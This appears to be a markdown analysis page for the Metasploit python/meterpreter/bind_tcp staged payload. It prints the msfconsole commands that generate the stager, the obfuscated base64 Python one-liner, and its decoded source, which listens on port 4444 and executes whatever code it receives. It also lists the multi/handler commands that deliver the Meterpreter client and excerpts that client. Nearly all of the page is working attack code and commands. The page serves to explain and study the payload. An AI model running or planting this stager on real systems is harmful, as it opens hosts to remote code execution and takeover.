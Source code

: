 # python/meterpreter/bind_tcp (staged payload)

## Stager

### Generate
```
msf5> use python/meterpreter/bind_tcp
msf5 payload(python/meterpreter/bind_tcp) > generate -f raw -o stager.py
```

### Result
```python
import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHNvY2tldCxzdHJ1Y3QKYj1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQpiLmJpbmQoKCcwLjAuMC4wJyw0NDQ0KSkKYi5saXN0ZW4oMSkKcyxhPWIuYWNjZXB0KCkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyhkLHsncyc6c30pCg==')))
```

Note: the dict is used to apply py2/3 compatibility with regards to decoding strings

#### Base64 Decoded Content
```python
import socket,struct
b=socket.socket(2,socket.SOCK_STREAM)   # 2 = socket.AF_INET
b.bind(('0.0.0.0',4444))
b.listen(1)                             # 1 = backlog, maximum number of queued connections
s,a=b.accept()
l=struct.unpack('>I',s.recv(4))[0]      # Read the length of the payload into a 4 byte unsigned integer in native byte order
d=s.recv(l)                             # receive data, bufsize=l
while len(d)<l:
	d+=s.recv(l-len(d))
exec(d,{'s':s})                         # provide the socket file descriptor as global var 's' to payload in d
```

## Payload (meterpreter)
The payload is sent when executing the multi/handler exploit module with the
corresponding payload:
```
msf5> use exploit/multi/handler
msf5 exploit(multi/handler) > set payload python/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set rhost 127.0.0.1
msf5 exploit(multi/handler) > set rport 4444
msf5 exploit(multi/handler) > exploit
```

The first 4 bytes contain the length of the payload, i.e. 0xd1fb = 53755 bytes.
The python meterpreter client follows (full contents in file `payload.py`).
```
00000000  00 00 d1 fb                                        ....
00000004  23 21 2f 75 73 72 2f 62  69 6e 2f 70 79 74 68 6f   #!/usr/b in/pytho
00000014  6e 0a 69 6d 70 6f 72 74  20 62 69 6e 61 73 63 69   n.import  binasci
00000024  69 0a 69 6d 70 6f 72 74  20 63 6f 64 65 0a 69 6d   i.import  code.im
...
```

Towards the end of the payload, the meterpreter is invoked using the socket
provided by the stager in variable `s`:
```python
...
_try_to_fork = TRY_TO_FORK and hasattr(os, 'fork')
if not _try_to_fork or (_try_to_fork and os.fork() == 0):
    if hasattr(os, 'setsid'):
        try:
            os.setsid()
        except OSError:
            pass
    if HTTP_CONNECTION_URL and has_urllib:
        transport = HttpTransport(HTTP_CONNECTION_URL, proxy=HTTP_PROXY, user_agent=HTTP_USER_AGENT,
                http_host=HTTP_HOST, http_referer=HTTP_REFERER, http_cookie=HTTP_COOKIE)
    else:
        # PATCH-SETUP-STAGELESS-TCP-SOCKET #
        transport = TcpTransport.from_socket(s)
    met = PythonMeterpreter(transport)
    # PATCH-SETUP-TRANSPORTS #
    met.run()
```
